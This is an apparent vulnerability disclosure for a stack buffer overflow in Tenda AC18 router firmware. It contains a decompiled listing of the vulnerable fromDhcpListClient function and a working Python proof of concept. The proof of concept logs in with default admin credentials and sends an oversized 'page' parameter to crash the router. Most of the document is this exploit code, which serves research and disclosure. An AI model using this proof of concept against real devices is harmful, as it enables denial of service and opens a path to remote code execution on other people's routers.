 ## Tenda AC18 stack overflow vulnerability

### * Version

V15.03.05.19_multi ac18_kf_V15.03.05.19(6318_)_cn.bin)

### * Firmware
[https://www.tenda.com.cn/download/detail-2683.html](https://www.tenda.com.cn/download/detail-2683.html)


### * Vulnerability Detail

In function fromDhcpListClient, the content obtained by the program from the parameter "page" is passed to local_1c, 
and then the local_1c is directly copied into the acStack288 stack through the sprintf function. 
There is no size check, so there is a stack overflow vulnerability. The attacker can easily perform a Deny of Service Attack or Remote Code Execution with carefully crafted overflow data.

```c
void fromDhcpListClient(undefined4 param_1)

{
  size_t sVar1;
  int iVar2;
  undefined4 local_370;
  undefined4 local_36c;
  undefined4 local_368;
  undefined4 local_364;
  undefined local_360;
  char acStack608 [63];
  char acStack545 [257];
  char acStack288 [256];
  char *local_20;
  undefined4 local_1c;
  char *local_18;
  int local_14;
  
  local_14 = 0;
  memset(acStack608,0,0x40);
  local_18 = (char *)FUN_0002ba8c(param_1,"LISTLEN",&DAT_000ee1a8);
  local_1c = FUN_0002ba8c(param_1,"page",&DAT_000ee1b4);
  local_360 = 0;
  local_14 = 1;
  while (iVar2 = atoi(local_18), local_14 <= iVar2) {
    local_370 = 0;
    local_36c = 0;
    local_368 = 0;
    local_364 = 0;
    sprintf((char *)&local_370,"%s%d","list",local_14);
    local_20 = (char *)FUN_0002ba8c(param_1,&local_370,&DAT_000ee1c8);
    if ((local_20 == (char *)0x0) || (*local_20 == '\0')) break;
    strcpy(acStack545 + 1,local_20 + 1);
    sVar1 = strlen(acStack545 + 1);
    acStack545[sVar1] = '\0';
    sprintf(acStack608,"dhcps.Staticip%d",local_14);
    SetValue(acStack608,acStack545 + 1);
    local_14 = local_14 + 1;
  }
  SetValue("dhcps.Staticnum",local_18);
  sprintf(acStack288,"/network/lan_dhcp_static.asp?page=%s",local_1c);  //here is overflow
  iVar2 = CommitCfm();
  if (iVar2 != 0) {
    PostMsgToNetctrl(3);
  }
  FUN_0002be4c(param_1,acStack288);
  return;
}
```

### * POC

```python
import requests


cmd  = b'LISTLEN=1&page=' + b'A' * 800


url = b"http://192.168.2.2/login/Auth"
payload = b"http://192.168.2.2/goform/DhcpListClient/?" + cmd

data = {
    "username": "admin",
    "password": "admin",
}

def attack():
    s = requests.session()
    resp = s.post(url=url, data=data)
    print(resp.content)
    resp = s.post(url=payload, data=data)
    print(resp.content)

attack()
```
